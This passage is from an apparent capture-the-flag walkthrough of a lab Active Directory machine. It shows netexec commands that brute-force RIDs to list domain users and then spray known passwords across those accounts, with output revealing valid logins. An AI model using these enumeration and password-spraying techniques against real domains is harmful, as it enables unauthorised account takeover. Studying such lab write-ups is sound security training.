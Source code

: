 I can also do a full Bloodhound collection. Regardless, I’ll still have to do a password spray next.

### Password Spray

I’ll use the RID bruteforce to make a list of usernames on the domain:

```

oxdf@hacky$ netexec smb haze.htb -u paul.taylor -p 'Ld@p_Auth_Sp1unk@2k24' --rid-brute | grep SidTypeUser | cut -d'\' -f2 | cut -d' ' -f1 | tee domain_users
Administrator
Guest
krbtgt
DC01$
paul.taylor
mark.adams
edward.martin
alexander.green
Haze-IT-Backup$

```

I’ll save the three passwords I have so far in a file as well, and spray these across all the usernames:

```

oxdf@hacky$ netexec smb haze.htb -u domain_users -p passwords --continue-on-success 
SMB         10.10.11.61     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.61     445    DC01             [-] haze.htb\Administrator:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\Guest:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\krbtgt:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\DC01$:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24 
SMB         10.10.11.61     445    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 
SMB         10.10.11.61     445    DC01             [-] haze.htb\edward.martin:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\alexander.green:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\Haze-IT-Backup$:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\Administrator:changeme STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\Guest:changeme STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\krbtgt:changeme STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\DC01$:changeme STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\edward.martin:changeme STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\alexander.green:changeme STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\Haze-IT-Backup$:changeme STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\Administrator:password STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\Guest:password STATUS_LOGON_FAILURE 
```